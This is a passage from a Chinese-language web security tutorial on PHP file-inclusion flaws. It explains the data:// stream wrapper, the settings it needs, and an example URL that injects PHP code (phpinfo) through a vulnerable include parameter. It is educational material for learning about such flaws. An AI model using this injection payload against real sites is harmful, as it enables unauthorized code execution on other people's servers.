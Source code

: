      ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBu.jpeg)

- **参考**：[http://php.net/manual/zh/wrappers.compression.php](https://link.segmentfault.com/?enc=COGb8k692hTcrPCbVfM2KA%3D%3D.oOI%2Fengy6yZM4ZI7C6IZhX48UZ74pQ0bGkiwacOMlOlBKRorQIB8bye5tEc%2BrWnOuaUJfWMclOA%2F9iz3vsFxXg%3D%3D)

#### `data://` 协议

- **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

- **作用**：自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

- **用法**：

  ```awk
  data://text/plain,
  data://text/plain;base64,
  ```

- **示例**：

  1. `data://text/plain,`

     ```http
     http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBB.jpeg)
